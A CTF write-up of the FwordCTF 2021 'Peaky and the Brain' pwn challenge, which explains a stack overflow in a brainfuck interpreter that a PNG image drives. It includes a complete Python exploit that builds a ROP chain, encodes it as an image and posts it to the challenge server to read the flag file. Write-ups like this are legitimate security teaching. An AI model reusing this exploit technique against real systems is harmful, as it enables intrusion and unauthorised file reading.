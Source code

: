 ​​**Peaky and the Brain**

was a pwn challenge from FwordCTF 2021

basically, it was a web application write in python,

that accept a png picture as input, and a small text.

The interface looks like this. (a bit ugly I know..)

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/peaky.and.the.brain/pics/interface.png)

The image was converted to brainfuck according to pixel color values.

then the brainfuck was passed to a binary interpreter.

The text that was input in arg window on the webpage, was also passed to the interpreter,

and stored in a buffer on .bss at a fixed address, we will use it to pass the filename we want to read for the ROP.

the output of the interpreter was returned back in the web page.

the interpreted has a seccomp in place, that forbid execve (no shell exec),  socket (no connect back shellcode), mprotect (no shellcode so...)

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/peaky.and.the.brain/pics/seccomp.png)

as always with brainfuck challenge, the interpreter does not check boundaries when accessing his buffer on stack.

so we can write value after the 79 bytes buffer on stack , and modify the interpreter return address..

and write a ROP in stack, to do a simple open/read/write ROP, that will dump the flag to stdout,

the stdout output, will be return to us on the webpage..

Here is the python code to do that so...

```python3
#!/usr/bin/env python
# -*- coding: utf-8 -*-
from pwn import *
import requests
import png
import StringIO

context.update(arch="amd64", os="linux")
context.log_level = 'error'

exe = ELF('./interpreter')
rop = ROP(exe)

# brainfuck instructions to color translation table
colors = {'>' : (255,0,0), '.' :  (0,255,0), '<' : (0,0,255), '+' : (255,255,0), '-' : (0,255,255), '[' : (255,0,188), ']' : (255,128,0), ',' : (102,0,204) }

pop_rdi = rop.find_gadget(['pop rdi', 'ret'])[0]
pop_rsi = rop.find_gadget(['pop rsi', 'ret'])[0]
pop_rdx = rop.find_gadget(['pop rdx', 'ret'])[0]

# simple rop open file, read it, write it to stdout
payload = p64(pop_rdi) + p64(0x4e5360) + p64(pop_rsi) + p64(0) + p64(pop_rdx) + p64(0) + p64(exe.symbols['open'])
payload += p64(pop_rdi) + p64(3) + p64(pop_rsi) + p64(0x4e5370) + p64(pop_rdx) + p64(100) + p64(exe.symbols['read'])
payload += p64(pop_rdi) + p64(1) + p64(pop_rsi) + p64(0x4e5370) + p64(pop_rdx) + p64(100) + p64(exe.symbols['write'])
payload += p64(exe.symbols['exit'])

# translate ROP payload to brainfuck instructions
code  = '>'*0x78	# first we advance in stack to reach return address
# write each qword with brainfuck
for c in payload:
  code += '[-]'+'+'*ord(c)+'>'

# generate png image from code
img = []
row = ()
for x in range(len(code)):
     row = row + colors[code[x]]
img.append(row)
with open('picture.png', 'wb') as f:
    w = png.Writer(len(code), 1, greyscale=False)
    w.write(f, img)

print('posting picture...')
url = "http://40.71.72.198:8080/"
files = {'file': open("picture.png","rb").read()}
data = {'text':'/data/flag.txt'}
r = requests.post(url, files=files, data=data)

print('FLAG:')
for line in StringIO.StringIO(r.text).readlines():
  if 'FwordCTF' in line:
    print(line.split(b'<p># ')[1])
```

and the code in action

![](https://github.com/nobodyisnobody/write-ups/raw/main/Fword.CTF.2021/pwn/peaky.and.the.brain/pics/gotflag.gif)

*nobodyisnobody still pwning things...*

